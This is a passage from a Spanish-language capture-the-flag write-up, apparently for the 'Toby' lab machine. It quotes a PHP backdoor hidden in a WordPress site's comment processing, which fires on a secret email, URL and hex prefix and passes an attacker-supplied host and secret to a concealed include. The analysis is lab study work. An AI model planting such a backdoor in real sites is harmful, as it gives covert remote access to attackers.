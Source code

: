 ![wft itered](/assets/images/Toby/wtfi.png)

Observamos que en el archivo 80 empieza a dejar de cambiar el tamano del contenido. Asi que procedemos a leerlo y encontramos el siguiente script:

```php
<?php
if($comment_author_email=="help@toby.htb" && $comment_author_url=="http://test.toby.htb/" && substr($comment_content,0,8)=="746f6279"){$a=substr($comment_content,8);
	$host=explode(":",$a)[0];
	$sec=explode(":",$a)[1];
	$d="/usr/bin/wordpress_comment_validate";
	include $d;
	wp_validate_4034a3($host,$sec);
	return new WP_Error('unspecified error');
}
?>
```

Procedemos a ver como funciona, abriremos burpsuite y cyberchef para interpretar lo que esta sucediendo.
Llenamos el form de http://wordpress.toby.htb/2021/07/14/horses/ de la siguiente forma:

![Backdoor Form](/assets/images/Toby/back_form.png)
